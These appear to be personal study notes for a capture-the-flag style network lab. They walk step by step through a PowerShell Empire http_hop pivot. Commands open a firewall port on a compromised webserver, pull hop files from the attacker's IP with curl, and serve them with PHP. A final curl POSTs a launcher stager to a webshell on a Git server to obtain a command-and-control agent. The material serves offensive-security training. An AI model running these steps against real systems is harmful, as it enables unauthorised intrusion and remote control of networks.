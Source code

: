 Time to put this all into practice!

You should already have a `http_hop` listener started in either Empire or Starkiller from the last task. If you don't, take this opportunity to start one before continuing.

With the listener started there are two things we must do before we can get an agent back from the Git Server:-

- We must generate an appropriate stager for the target
- We must put the `http_hop` files into position on .200, and start a webserver to serve the files on the port we selected during the listener creation. This server must be able to execute PHP, so a PHP Debug server is ideal.


---

Let's start with generating a stager. For this we will use the `multi/launcher` stager. We already covered how to create stagers back in task 26, so you should be able to do this relatively unguided. The only option needing to be set here is the "Listener" option, which needs set to the name of the `http_hop` listener we created in the previous task:

## Empire client

Start Empire Client:

```
$ powershell-empire client
```


![[Git Server-20250103140519820.webp]]

## Starkiller

![[Git Server-20250103140607340.webp]]

If using the Empire CLI, you will be presented with a payload to copy and paste into the target's command line:

![[Git Server-20250103140856420.webp]]

If using Starkiller you can copy the payload to your clipboard by clicking on the copy button of the Actions menu for the stager in the main Stagers menu:

![[Git Server-20250103140929490.webp]]

Whichever method you chose, save the provided command somewhere and _do not_ execute it yet. We will need it once we have set up the hop files on the jumpserver.


---
## Jumpserver set up

Now let's get that jumpserver set up!

1. First of all, in the /tmp directory of the compromised webserver, create and enter a directory called `hop-USERNAME`. e.g.:

	![[Git Server-20250103141203892.webp]]

2. Transfer the contents from the `/tmp/http_hop` (or whatever you called it) directory across to this directory on the target server. A good way to do this is by zipping up the contents of the directory (`cd /tmp/http_hop && zip -r hop.zip *`), then transferring the zipfile across using one of the methods previously shown. For example, doing this with a Python HTTP server :
	![[Git Server-20250103141930263.webp]]

3. We can then unzip the zipfile on the webserver (i.e. `unzip hop.zip`):

	 ![[Git Server-20250103142317960.webp]]

> [!Note]
The output of `ls` must match up with the screenshot -- i.e. there should be a `news.php` file in your current directory, with `admin/` and_ `login/` as subdirectories

## Open the port in the firewall

Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 47000/tcp`

## Serving the files

We now need to actually serve the files on the port we chose when generating the http_hop listener (task 28). Fortunately we already know that this server has PHP installed as it serves as the backend to the main website. This means that we can use the PHP development webserver to serve our files! The syntax for this is as follows:  
`php -S 0.0.0.0:PORT &>/dev/null &`  

e.g:

![[Git Server-20250103142653235.webp]]

As shown in the screenshot, the webserver is now listening in the background on the chosen port 47000.

> [!Note]
> Remember to open up the port in the firewall if you haven't already!

This is a handy trick for when we need to serve PHP files, as our standard Python HTTP webserver is not capable of interpreting the PHP language and so cannot execute the scripts.

We now have everything we need to get this show on the road!


---

# Your job


![[Command & Control Empire Diagram.svg]]


The way this system works is:
- There is a **command server**, usually your Attacking Machine.
- This command server has a listener or number of listeners on it, waiting for connections from your agents. 
- These listeners come in various options but the most used ones are HTTP and *HTTP-Hop* mainly because they can blend into normal day-to-day traffic easier.

**HTTP-Hop**
This is a special listener because it allows you to set up a hop station should you be pivoting around a network. What this essentially does is allows us to take an entry point in the network and make use of it as a “jump” server between our command server and a compromised device that doesn’t have internet connectivity for example:

**Command Server <—–> Web Server <—-> Compromised Machine**

The next part is the **stager**.
- This is a script/command that creates our agent. 
- This comes in a number of forms but *Bash* and *Powershell* are the ones introduced in the Wreath room. 
- Once these stagers are run on your compromised machine they will create an **agent** connection back to your control server. 
- Once connected you will be able to run commands as if you were on the agent through the command server.

| <center>Actions</center>                                                        | <center>Machine</center> | <center>Commands</center>                                                                                               |       |
| ------------------------------------------------------------------------------- | ------------------------ | ----------------------------------------------------------------------------------------------------------------------- | ----- |
| Start Empire Server                                                             | Attacking Machine        | `powershell-empire server`                                                                                              |       |
| Start Empire CLI                                                                | Attacking Machine        | `powershell-empire client`                                                                                              |       |
| Setup HTTP Listener                                                             | Empire CLI               | `uselistener http`                                                                                                      |       |
| Create a listener                                                               | Empire CLI               | [[Empire - Listeners]]                                                                                                  |       |
| Setup Stager                                                                    | Empire CLI               | `usestager multi_bash`<br>`set Listener Webserver`<br>`execute`                                                         |       |
| Open firewall port                                                              | Jump box .200            | `firewall-cmd --zone=public --add-port 47000/tcp`                                                                       |       |
| Create a file on the target                                                     | Jump box .200            | `nano filename.sh`                                                                                                      |       |
| Copy the stager from Starkiller                                                 | Attacking Machine        | ![[Git Server-20250117141809885.webp]]                                                                                  |       |
| Paste it on the filename.sh and save the file.                                  | Jump box .200            |                                                                                                                         | 300]] |
| Change the filename.sh permissions                                              | Jump box .200            | `chmod +x filename.sh`                                                                                                  |       |
| Run the filename.sh                                                             | Jump box .200            | `./filename.sh`                                                                                                         |       |
| On Startkiller go to Agents                                                     | Attacking Machine        | ![[Git Server-20250117142229904.webp]]                                                                                  |       |
| Creating hop jump server                                                        | Empire CLI               | `uselistener http_hop`<br>`set Host 10.200.X.200` <br>`set Port 47000`<br>`set RedirectListener Webserver`<br>`execute` |       |
| Zip and transfer files `/tmp/http_hop` to jump box target                       | Attacking Machine        | `cd /tmp/http_hop && zip -r hop.zip`<br>`sudo python3 -m http.server 80`                                                |       |
| Download on target                                                              | Jump box .200            | `curl 10.50.X.X/hop.zip -o hop.zip unzip hop.zip`                                                                       |       |
| **IF YOU ALREADY HAVE DONE ALL THE PREVIOU STEPS DON'T NEED TO REPEAT IT**      |                          |                                                                                                                         |       |
| Create http_hop stager                                                          | Empire CLI               | `usestager multi_launcher`<br>`set Listener http_hop` <br>`execute`                                                     |       |
| Setup a PHP Server to host http_hop files                                       | Jump box .200            | `php -S 0.0.0.0:47000`                                                                                                  |       |
| Connect to `git-server` on `.150` and execute `usestager/multi_launcher` agent. | Attacking Machine        | `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<usestager/multi_launcher payload>"`<br>                |       |
After completing the given steps, we have an agent from the Git Server in Starkiller.

![[Git Server-20250114152251549.webp]]

**Next step:** [[Empire - Modules]]

